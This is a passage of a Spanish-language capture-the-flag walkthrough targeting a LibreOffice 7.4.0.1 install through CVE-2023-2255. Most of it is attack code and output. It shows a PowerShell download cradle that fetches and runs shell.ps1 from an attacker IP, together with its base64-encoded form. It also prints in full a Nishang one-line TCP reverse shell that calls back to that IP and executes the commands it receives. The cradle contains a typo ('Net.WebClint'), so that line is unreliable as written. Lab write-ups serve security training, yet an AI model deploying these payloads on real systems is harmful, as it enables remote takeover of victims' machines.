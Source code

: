 ```bash
UpgradeCode={4B17E523-5D91-4E69-BD96-7FD81CFA81BB}
UpdateUserAgent=<PRODUCT> (${buildid}; ${_OS}; ${_ARCH}; <OPTIONAL_OS_HW_DATA>)
Vendor=The Document Foundation
```

Viendo la versión de LibreOffice que es la 7.4.0.1 y buscando el google algun exploit encuentro un [CVE-2023-2255](https://github.com/elweth-sec/CVE-2023-2255).
Voy a descargarlo y voy a crear un script en PS para descargar y ejecutar un script desde nuestra ip.

```bash
sudo nano cradle
❯ cat cradle
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: cradle
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ IEX(New-Object Net.WebClint).downloadString('http://10.10.14.183:8000/shell.ps1')
───────┴─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
❯ cat cradle | iconv -t utf-16le | base64 -w 0
SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABTAHQAcgBpAG4AZwAoACcAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgAxADQALgAxADgAMwA6ADgAMAAwADAALwBzAGgAZQBsAGwALgBwAHMAMQAnACkACgA=%     
```

Me lo copio codificado y me voy a descargar `Nishang`, un framework y una colección de scripts y cargas útiles que permiten el uso de PowerShell para seguridad ofensiva, pruebas de penetración y trabajo en equipo. Copiamos el siguiente script, el cual actúa como un reverse shell en PowerShell. Se conecta a un servidor remoto y permite que los comandos sean enviados desde el servidor para su ejecución en la máquina que ejecuta el script. La salida del comando se envía de vuelta al servidor.

```bash
❯ cp nishang/Shells/Invoke-PowerShellTcpOneLine.ps1 scripts/shell.ps1

❯ cat shell.ps1
───────┬──────────────────────────────────────────────────────────────────────────────────
       │ File: shell.ps1
───────┼──────────────────────────────────────────────────────────────────────────────────
   1   │ 
   2   │ $client = New-Object System.Net.Sockets.TCPClient('10.10.14.183',9001);$stream = 
       │ $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($byte
       │ s, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEnco
       │ ding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendbac
       │ k2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).
       │ GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}
       │ ;$client.Close()
   3   │ 
   4   │ 

   ```
